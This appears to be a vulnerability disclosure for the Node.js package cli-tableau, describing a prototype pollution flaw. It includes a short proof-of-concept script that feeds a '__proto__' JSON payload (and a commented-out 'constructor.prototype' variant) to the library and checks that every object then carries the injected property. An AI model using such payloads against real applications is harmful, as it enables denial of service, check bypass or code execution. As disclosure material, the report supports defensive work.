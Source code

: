 ## description
cli-tableau is a pretty unicode table for the CLI with Node.JS.

cli-tableau is vulnerable to Prototype Pollution. The utilities function allows modification of the Object prototype. 
If an attacker can control part of the structure passed to this function, they could add or modify an existing property.
Possibly leading to many kinds of attacks such as the denial-of-service, checking bypass, or potentially code execution.

## PoC
Run the PoC.js with the contents below:

//PoC.js

var cli = require('cli-tableau');

var payload = '{"__proto__":{"polluted":"pzhou@shu"}}';
//var payload = '{"constructor":{"prototype":{"polluted":"pzhou@shu"}}}';

console.log('Before:', {}.polluted);

cli(JSON.parse(payload));

console.log('After:', {}.polluted);

//end of PoC.js
